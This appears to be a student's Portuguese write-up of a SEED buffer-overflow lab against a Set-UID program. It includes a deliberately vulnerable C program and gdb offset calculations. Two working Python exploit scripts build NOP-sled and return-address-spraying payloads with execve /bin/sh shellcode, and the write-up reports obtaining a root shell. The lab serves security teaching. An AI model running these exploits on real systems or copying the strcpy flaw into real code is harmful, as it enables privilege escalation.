 # Semana #5 - Buffer-Overflow Attack Lab - Set-UID Version

## Task 1 - Getting familiar with shellcode

Esta task familiariza-nos com shellcode. Aprendemos que a melhor maneira para correr shellcode é através de código assembly. Aprendemos, também, um pouco sobre o código assembly utilizado para chamar a função **execve()** e executar `/bin//sh`.
Depois de compilar o ficheiro `call_shellcode.c`, são criados 2 ficheiros:

- `a32.out`, que contém o código em 32 bits
- `a64.out`, que contém o código em 64 bits

Embora o código assembly seja diferente dependendo se é 32 bits ou 64 bits, quando corremos notamos que ambos, de facto, abrem a shell bash e, depois de escrever `whoami`, ambas as bashes respondem com **seed**.


## Task 2 - Understanding the Vulnerable Program

Primeiramente, começamos por compilar o ficheiro `stack.c` e torná-lo num Set-UID program através dos seguintes comandos:

```
sudo chown root stack
```


```
sudo chmod 4755 stack
```

O conteúdo do `stack.c` é o seguinte:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char *str){
    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv){
    char str[517];
    FILE *badfile;
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```


Alternadamente, podemos simplesmente fazer **make**, pois o `Makefile` já tem as instruções para fazer isto.

Depois de fazer **make**, são criados 4 pares de ficheiros executáveis:

- `stack-L1` e `stack-L1.dbg`
- `stack-L2` e `stack-L2.dbg`
- `stack-L3` e `stack-L3.dbg`
- `stack-L4` e `stack-L4.dbg`

Agora, falta mudar o conteúdo do `badfile`` para conseguirmos dar exploit à vulnerabilidade existente.

## Task 3 - Launching Attack on 32-bit Program (Level 1)

Primeiro, temos que criar o ficheiro `badfile``:

```
touch badfile
```

Agora, vamos correr o código em modo debug para conseguirmos descobrir a distância entre a posição inicial do **buffer** e o sítio onde o **return address** está armazenado. Para isso, vamos escrever a seguinte instrução: 

```
gdb stack-L1-dbg
```

Depois de meter um breakpoint na função **bof()**, executar o programa e dar alguns passos para a frente, podemos saber o endereço do **$ebp** da seguinte forma:

```
p $ebp
```

Que retornou `(void *) 0xffffcb18`.<br>
Podemos fazer o mesmo para descobrir o endereço do buffer:

```
p &buffer
```

Que retornou `0xffffcaac`.<br>

Por fim, alteramos o ficheiro `exploit.py` para ter os valores dos endereços obtidos. O ficheiro final ficou assim:

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's (do nothing operation)
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb18 + 190
offset = 0xffffcb18 - 0xffffcaac + 4

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Foram necessárias fazer mudanças ao ficheiro original.<br>
Primeiro, mudamos o shellcode para código de 32 bits, que tinha sido dado no ficheiro `call_shellcode.c`.
Depois mudamos o start, que representa o início do shellcode na stack e calculamo-lo subtraindo o tamanho da shellcode ao tamanho lido do badfile, ou seja:

```py
start = 517 - len(shellcode)
```

Finalmente, falta calcular o novo return address, que nos vai levar ao shellcode, e o offset, que representa a distância entre o return address e o início do buffer. Isto é para escrevermos no `badfile`, onde anteriormente estava o return address, um return address novo, que nos levará ao shellcode.
Para calcular o return address basta pegar no valor do **$ebp** e somar um número para que, depois de sair da função, o endereço esteja num local preenchido só por NOP's, que faz com que prossiga até, finalmente, chegar ao shellcode.<br>
Para calcular o offset, temos que subtrair ao **$ebp** o valor do endereço do **buffer** e somar 4, para incluir o antigo return address:

```py
ret    = 0xffffcb18 + 190
offset = 0xffffcb18 - 0xffffcaac + 4
```

Finalmente, corremos o `exploit.py`, que vai criar o `badfile`, seguido do `stack-L1` e obtemos a seguinte mensagem:

```
# <---- Bingo! You’ve got a root shell!
```

## Task 4 - Launching Attack without Knowing Buffer Size (Level 2)


Embora este exercício seja semelhante ao anterior, o facto de não sabermos o tamanho do buffer leva-nos a ter de ter uma approach diferente em relação, especialmente, ao return address. Como não é suposto sabermos o **$ebp**, não conseguimos calcular o offset e, portanto, não conseguimos dar pinpoint à localização do return address que queremos override.<br>
Vamos, portanto, ter de recorrer a **spraying**.

**Spraying** consiste em encher o buffer com o novo return address que queremos, pois, assim, mesmo não sabendo o tamanho do `buffer` e, por sua vez, o endereço do return address, como sabemos o tamanho máximo do `buffer` sabemos o endereço máximo que o antigo return address pode ocupar.

O `exploit.py` ficou da seguinte forma:

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's (do nothing operation)
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcaac + 201*4
#offset = 0xffffcb18 - 0xffffcaac + 4  # Não é necessário para este caso

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address

for offset in range(50):
  content[offset*L:offset*L + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Desta vez, como não temos o **$ebp** para calcular o **ret**, usamos o endereço do início do `buffer`, devido a isto o número adicionado tem de ser maior do que o tamanho máximo do `buffer`, que é `200 * 4 = 800`, devido a ser endereços de 32 bits/4 bytes.<br>
Portanto, o novo return address ficou com o valor:

```
ret    = 0xffffcaac + 201*4
```

Por fim, não podemos calcular onde colocar o novo return address como no exercício anterior, portanto recorremos a spraying:

```
for offset in range(50):
  content[offset*L:offset*L + L] = (ret).to_bytes(L,byteorder='little') 
```

Este **ciclo for** vai colocar, em todos os endereços do `buffer`, o novo return address, calculado anteriormente.
